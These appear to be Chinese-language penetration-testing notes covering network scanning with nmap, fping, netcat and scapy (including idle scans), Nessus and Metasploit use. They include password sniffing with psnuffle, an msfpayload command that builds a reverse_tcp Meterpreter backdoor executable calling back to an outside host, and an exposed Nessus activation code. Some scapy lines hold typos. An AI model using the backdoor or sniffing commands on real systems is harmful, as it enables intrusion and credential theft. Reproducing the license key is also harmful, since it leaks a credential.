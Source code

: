 # 渗透网站

修改wifi sid

https://lexsaints.blog.csdn.net/article/details/117260497

# 工具

APPscan 

goby Burp

pocsuite



#### sqlmap 渗透数据库



批量 扫描存活地址

fping -ag 192.169.99.0/24



#### nmap 端口扫描，探询那些端口存活



nmap -sn  192.168.99.0/24

nmap -sn  192.168.199.0-254



-sn 表示只进行ping 扫描，不进行端口

全连接扫描会被记录，半连接扫描不会被记录

使用nmap 半连接：

nmap -sS  192.168.199.223 -p  80,81,3306

-sS  表示使用SYN 进行半连接扫描



扫描开放的端口和操作系统

nmap -sS  -O 192.168.99.126

-O 显示操作系统 每一种操作系统都有特定的指纹

#### nc( netcat) 进行端口扫描

nc -z -v -n 192.168.78.128  1-100 

- z 表示为zero，意思是扫描时不发送任何数据包
- -v 即为详细输出
- -n 不使用dns反向查询ip地址域名

#### scapy 

apt  install python3-pyx

####  僵尸扫描

rz1=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))

rt=sr1(IP(dst="192.168.1.54",dst="192.168.1.163")/TCP(dport=22),timeout=1)  //第二张图
rz2=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))   //第三张图
rz1.display()   //查看IPID

nmap 扫描僵尸主机

nmap -p端口 僵尸主机IP地址 --script=ipidseq.nse



|_ipidseq: Incremental!  说明是可以作为僵尸主机的



伪造僵尸主机IP进行扫描

nmap 目标主机IP -sI 僵尸主机IP -Pn -p 端口号

#### wireshark  使用



过滤器的使用

port  80 捕获 80端口相关的



ttl默认值

/proc/sys/net/ipv4/ip_default_ttl





#### zenmap



#### nessus  漏洞检测

https://www.tenable.com/downloads/nessus?loginAttempted=true

启动

/bin/systemctl start nessusd.service

Nessus
License Information
Activation Code: MPMX-VGRB-9BRV-52NA-DXNE



jingyu323

msf6  扫描结果

- vulns 显示漏洞
- use 
- creds  显示数据库中的所有平局

db_nmap -sV 192.168.99.131  查看开放端口



使用 auxiliary/sniffer 下的psnuffle 模块进行密码嗅探



smb_enumshare



字典路径

/usr/share/metasploit-framework/data/wordlists

#### msfpayload  生成后门

```
msfpayload windows/meterpreter/reverse_tcp LHOST=5.5.5.1 LPORT=8080 R | \
  msfencode -b '' -t exe -o /var/www/meterpreter.exe
```



## 渗透测试



测试基本流程：

1.  确定目标
2. 信息收集
3. 漏洞探测
4. 漏洞分析
5. 漏洞利用
6. 信息整理
7. 形成报告